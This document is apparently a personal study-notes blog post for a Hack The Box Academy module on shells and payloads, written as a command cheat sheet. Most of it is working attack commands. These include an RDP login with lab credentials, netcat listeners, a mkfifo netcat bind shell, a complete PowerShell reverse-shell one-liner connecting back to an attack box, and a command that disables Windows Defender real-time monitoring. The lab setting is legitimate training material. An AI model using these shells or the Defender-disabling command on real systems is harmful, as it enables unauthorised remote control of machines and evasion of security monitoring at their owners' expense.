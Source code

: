 ```yaml
---
layout:     post
title:      "Shells & Payloads"
subtitle:   "Shells & Payloads"
date:       2024-03-01
author:     "k1r4"
header-img: "img/footprinting.webp"
catalog:    true
tags:
    - shells
    - payloads
---
```


## Shells & Payloads


|**Command**|**Description**|
|-|-|
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol. |
| `env` | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use. |
| `sudo nc -lvnp <port #>` | Starts a netcat listener on a specified port. |
| `nc -nv <ip address of computer with listener started><port being listened on>` | Connects to a netcat listener at the specified IP address and port. |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell `(/bin/bash)` the specified IP
address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on. |
| `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeNameSystem.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS' + (pwd).Path + '> ';$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` | Powershell one-liner used to connect back to a listener that has been started on an attack box. |
| `Set-MpPreference -DisableRealtimeMonitoring $true` | Powershell command using to disable real time monitoring in Windows Defender. |









----

